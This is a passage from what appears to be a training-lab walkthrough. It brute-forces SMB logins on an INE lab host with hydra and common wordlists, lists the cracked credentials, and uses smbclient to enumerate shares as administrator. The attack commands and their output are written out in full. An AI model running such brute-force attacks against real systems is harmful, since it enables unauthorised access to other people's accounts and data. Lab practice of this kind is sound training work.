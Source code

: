 Here found the service SMB, Since we didn’t found any username and the password for this we’ll find it using same old traditional methods which is brute forcing.  

```bash
┌──(root㉿INE)-[~]
└─# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://target2.ine.local                
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-21 15:50:33
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 7070 login tries (l:7/p:1010), ~7070 tries per task
[DATA] attacking smb://target2.ine.local:445/
[445][smb] host: target2.ine.local   login: rooty   password: spongebob
[445][smb] host: target2.ine.local   login: demo   password: password1
[445][smb] host: target2.ine.local   login: auditor   password: hellokitty
[445][smb] host: target2.ine.local   login: administrator   password: pineapple
1 of 1 target successfully completed, 4 valid passwords found
```


>
> Creds found!
>
> rooty:spongebob
> demo:password1
> auditor:hellokitty
> administrator:pineapple
>


With these creds we can login in into the SMB and first let’s uses the username `administrator:pineapple`  and that works we’re able to list the contents.

```bash
──(root㉿INE)-[~]
└─# smbclient -L //target2.ine.local -U administrator                                                                                                                                    
Password for [WORKGROUP\administrator]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Shared          Disk      
        Shared2         Disk      
        Shared3         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to target2.ine.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
